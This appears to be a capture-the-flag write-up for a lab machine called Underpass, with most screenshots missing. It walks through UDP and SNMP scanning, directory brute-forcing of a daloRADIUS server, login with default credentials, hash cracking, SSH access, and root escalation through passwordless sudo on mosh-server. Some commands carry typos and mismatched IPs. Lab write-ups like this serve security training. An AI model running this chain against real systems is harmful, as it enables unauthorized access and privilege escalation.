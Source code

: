 <img src="Images/image1.png" alt="error loading image"> 


## Underpass

Apply a Nmap UDP scan

`nmap -sU --top-port=100 10.10.11.32`

<img src="Images/image2.jpg" alt="error loading image"> 

Let apply snmp enumeration using Metasploit

```
auxiliary/scanner/snmp/snmp_enum

set rhosts 10.10.11.48

run
```

<img src="Images/image3.jpg" alt="error loading image"> 

Here we can see daloradius server. After google search we have some url looking like

`http://underpass.htb/daloradius/`

but when I go to this path it show not found. So we use dirsearch to find hidden director and 
files

command: `dirsearch -u "http://underpass.htb/daloradius/" -t 50`

<img src="Images/image4.jpg" alt="error loading image"> 

Now when we move to app it how show

<img src="Images/image5.jpg" alt="error loading image"> 

Let we further brute force

<img src="Images/image6.jpg" alt="error loading image"> 

Go to login page

<img src="Images/image7.jpg" alt="error loading image"> 

Go with default credential for dalorradius **administrator:radius**

<img src="Images/image8.jpg" alt="error loading image"> 

Go to userlist

<img src="Images/image9.jpg" alt="error loading image"> 

Crash password hash and we have a plain username and password

<img src="Images/image10.jpg" alt="error loading image"> 

We have port 22 open try ssh login

`sh svcMosh@10.10.11.48`

Password: `<password here>`

<img src="Images/image11.jpg" alt="error loading image"> 

And we have a user hash

To find a root hash

First check a sudo priviledge `sudo -l`

<img src="Images/image12.jpg" alt="error loading image"> 

As there is no password require for /usr/bin/mosh-server so run it with sudo priviledge

`mosh --server="sudo /usr/bin/mosh-server" localhost`

we have

<img src="Images/image13.jpg" alt="error loading image"> 
















